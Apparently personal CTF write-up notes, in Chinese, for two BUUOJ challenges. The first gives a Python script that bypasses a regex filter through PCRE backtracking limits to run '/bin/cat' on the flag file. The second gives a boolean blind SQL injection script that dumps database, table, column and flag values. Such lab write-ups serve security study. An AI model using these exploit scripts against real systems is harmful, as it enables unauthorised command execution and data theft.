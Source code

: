 回溯过正则匹配RCE参考：[PHP利用PCRE回溯次数限制绕过某些安全限制 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)

需要用POST发送请求，因为GET会因为头太大报错

```python
import requests
 
payload = '{"cmd":"/bin/cat /home/rceservice/flag ","nayi":"' + "a"*(1000000) + '"}' #超过一百万，这里写一千万不会出结果。
 
res = requests.post("http://3ba79781-e8cf-4c71-bb33-5aca1e7231fd.node5.buuoj.cn:81/", data={"cmd":payload})
print(res.text)
```

![image-20240227165127168](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240227165127168.png)



## [WUSTCTF2020]颜值成绩查询

###### SQL布尔盲注

[[WUSTCTF2020\]颜值成绩查询_wustctf2020]颜值成绩查询 1-CSDN博客](https://blog.csdn.net/SopRomeo/article/details/106148254)

脚本：

```python
import requests

url= 'http://1612a8a7-717a-4041-8c35-302bf3788ace.node5.buuoj.cn:81/'

database =""

payload1 = "?stunum=1^(ascii(substr((select(database())),{},1))>{})^1" #库名为ctf
payload2 = "?stunum=1^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema='ctf')),{},1))>{})^1"#表名为flag,score
payload3 ="?stunum=1^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='flag')),{},1))>{})^1" #列名为flag,value
payload4 = "?stunum=1^(ascii(substr((select(group_concat(value))from(ctf.flag)),{},1))>{})^1" #
for i in range(1,10000):
    low = 32
    high = 128
    mid =(low + high) // 2
    while(low < high):
        # payload = payload1.format(i,mid)  #查库名
        # payload = payload2.format(i,mid)  #查表名
        # payload = payload3.format(i,mid)  #查列名
        payload = payload4.format(i,mid) #查flag

        new_url = url + payload
        r = requests.get(new_url)
        print(new_url)
        if "Hi admin, your score is: 100" in r.text:
            low = mid + 1
        else:
            high = mid
        mid = (low + high) //2
    if (mid == 32 or mid == 132):
        break
    database +=chr(mid)
    print(database)

print(database)

```